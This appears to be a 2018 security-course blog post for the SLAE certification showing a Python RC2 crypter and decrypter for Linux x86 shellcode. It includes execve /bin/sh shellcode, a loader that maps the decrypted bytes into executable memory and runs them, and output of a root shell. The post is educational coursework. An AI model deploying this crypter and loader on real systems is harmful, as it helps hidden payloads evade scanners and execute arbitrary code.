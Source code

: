```yaml
---
layout: single
title: RC2 Shellcode Crypter in Python - Linux x86
date: 2018-1-29
classes: wide
header:
---
```


Introduction
------------
RC2 is a symmetric-key block cipher which was popular in the first half of the 90s of the last century. RC2 also known as ARC2 was designed by Ron Rivest of RSA Security in 1987. Without going into too much details, RC2 consist of block size and key length amongst others things (more on that later). In this blog post, we’ll create RC2 shellcode crypter/decrpter to demonstrate the concept. Please note that I’m no RC2 expert and this blog post is by no means an overview of RC2 algorithm.

Crypter
-------
In order to create RC2 crypter there is couple of thing we need to figure out ahead of time. That is, key-length which can range from 8 to 1024 bits, cipher-mode which can be either ECB or CBC, and the secret key. We’ll use key length of `128-bits` and CBC as cipher mode which require an Initialization Vector. Here’s code referenced from [Chilkat](https://www.chilkatsoft.com/), will use the comments section to explain the process.

```python
import sys
import chilkat

# Define RC2 parameters
crypt = chilkat.CkCrypt2()
success = crypt.UnlockComponent("Anything for 30-day trial")
if (success != True):
    print(crypt.lastErrorText())
    sys.exit()

crypt.put_CryptAlgorithm("rc2")                                                  # set the encryption algorithm to "rc2"
crypt.put_CipherMode("cbc")                                                      # set cipher mode to "cbc"
crypt.put_KeyLength(128)                                                         # set key length 128-bit
crypt.put_Rc2EffectiveKeyLength(128)                                             #
crypt.put_PaddingScheme(0)                                                       # take care of padding
crypt.put_EncodingMode("hex")                                                    # set encoding mode to HEX
ivHex = "0001020304050607"                                                       # setup initialization vector for CBC mode.
crypt.SetEncodedIV(ivHex,"hex")                                                  # set encoding to HEX
keyHex = "000102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F"      # set secret key 128-bit
crypt.SetEncodedKey(keyHex,"hex")

# "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80", https://www.exploit-db.com/exploits/43735/
Encrypted_Shellcode = crypt.encryptStringENC("31c05089e2682f2f7368682f62696e89e350b00bcd80")  # encrypt shellcode in string NOT bytearray format
print "Encrypted Shellcode: " + Encrypted_Shellcode                                           # print encrypted shellcode
```

the above shellcode basically spawn shell for us and can be found [here](https://www.exploit-db.com/exploits/43735/). Let’s test it.

```sh
root@ubuntu:~# python RC2Crypter.py 
Encrypted Shellcode: F6F233BA271278F19E34812CC2B7ACD19385C2E7A6D477A4C72E71BF669540944E9E36B252321DB05BD96EE0223E5481
root@ubuntu:~#
```

Decrypter
---------
Hence RC2 is a symmetric-key algorithm meaning the same key is used for encryption and decryption, there is nothing much to it really other than reversing the process of encryption. All of the code used to execute the shellcode at run time can be found [here](http://hacktracking.blogspot.com/2015/05/execute-shellcode-in-python.html).

```python
from ctypes import CDLL, c_char_p, c_void_p, memmove, cast, CFUNCTYPE
import sys
import chilkat

# Define RC2 parameters
crypt = chilkat.CkCrypt2()
success = crypt.UnlockComponent("Anything for 30-day trial")
if (success != True):
    print(crypt.lastErrorText())
    sys.exit()

crypt.put_CryptAlgorithm("rc2")                                                  # set the encryption algorithm to "rc2"
crypt.put_CipherMode("cbc")                                                      # set cipher mode to "cbc"
crypt.put_KeyLength(128)                                                         # set key length 128-bit
crypt.put_Rc2EffectiveKeyLength(128)                                             #
crypt.put_PaddingScheme(0)                                                       # take care of padding
crypt.put_EncodingMode("hex")                                                    # set encoding mode to HEX
ivHex = "0001020304050607"                                                       # setup initialization vector for CBC mode.
crypt.SetEncodedIV(ivHex,"hex")                                                  # set encoding to HEX
keyHex = "000102030405060708090A0B0C0D0E0F101112131415161718191A1B1C1D1E1F"      # set secret key 128-bit
crypt.SetEncodedKey(keyHex,"hex")

# decrypt shellcode, paste encrypted shellcode here
Encrypted_Shellcode = "F6F233BA271278F19E34812CC2B7ACD19385C2E7A6D477A4C72E71BF669540944E9E36B252321DB05BD96EE0223E5481"
Decrypted_Shellcode = crypt.decryptStringENC(Encrypted_Shellcode)                # decrypt shellcode

# execute decrypted shellcode
libc = CDLL('libc.so.6')
shellcode = Decrypted_Shellcode.decode('hex')
sc = c_char_p(shellcode)
size = len(shellcode)
addr = c_void_p(libc.valloc(size))
memmove(addr, sc, size)
libc.mprotect(addr, size, 0x7)
run = cast(addr, CFUNCTYPE(c_void_p))
run()
```

Let's test.

```sh
root@ubuntu:~# python RC2Decrypter.py 
# id
uid=0(root) gid=0(root) groups=0(root)
#
```

Its demo time! we’ll use `pyinstaller` to compile the python script.

[![Crypter/Decrypter Demo](https://github.com/ihack4falafel/ihack4falafel.github.io/blob/master/assets/images/chmod.png)](https://player.vimeo.com/video/253265228?dnt=1&app_id=122963 "Click to Watch!")

Closing Thoughts
----------------
While researching crypters/decrypters, I found most of the blog posts out there were using C wrappers, so for the sake of not making a redundant one I decided to use python wrapper. This post marks the end of my SLAE journey in which I learned how little did I know and how much I still need to learn. Thank you Vivek Ramachandran and the people who helped make this course available! feel free to contact me for questions via twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1115

Github Repo: [https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%207](https://github.com/ihack4falafel/SLAE32/tree/master/Assignment%207)
